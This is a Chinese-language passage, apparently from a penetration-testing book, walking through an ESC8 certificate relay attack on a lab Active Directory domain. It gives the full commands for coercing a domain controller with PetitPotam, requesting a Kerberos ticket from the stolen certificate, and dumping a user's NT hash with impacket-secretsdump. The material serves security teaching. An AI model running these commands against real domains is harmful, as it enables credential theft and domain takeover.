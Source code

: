     我们选择**DomainController**模板，因为我们的目标是域控制器。如果我们的目标是工作站，我们可以使用**Machine**模板，对于域用户，我们可以使用**User**模板。

1.  使用**PetitPotam**强制进行身份验证；但是，您也可以选择任何其他方法：

    ```
    python3 PetitPotam.py 192.168.56.100 meereen.essos.local
    ```

1.  在强制身份验证后获取证书：

![图 8.39 – 获取域控制器的计算机帐户证书](img/B18964_08_39.jpg)

图 8.39 – 获取域控制器的计算机帐户证书

1.  通过传递证书请求 TGT：

    ```
    python3 gettgtpkinit.py -pfx-base64 $(cat /home/kali/cert.b64) -dc-ip 192.168.56.12 'essos.local/meereen$' 'meereen.ccache'
    ```

1.  使用 TGT，获取**daenerys.targaryen**的 NT 哈希：

    ```
    export KRB5CCNAME=meereen.ccache
    impacket-secretsdump -k -no-pass -just-dc-user daenerys.targaryen ESSOS.LOCAL/'meereen$'@meereen.essos.local
    ```

    攻击的结果如下截图所示：

![图 8.40 – 成功的 ESC8 攻击](img/B18964_08_40.jpg)
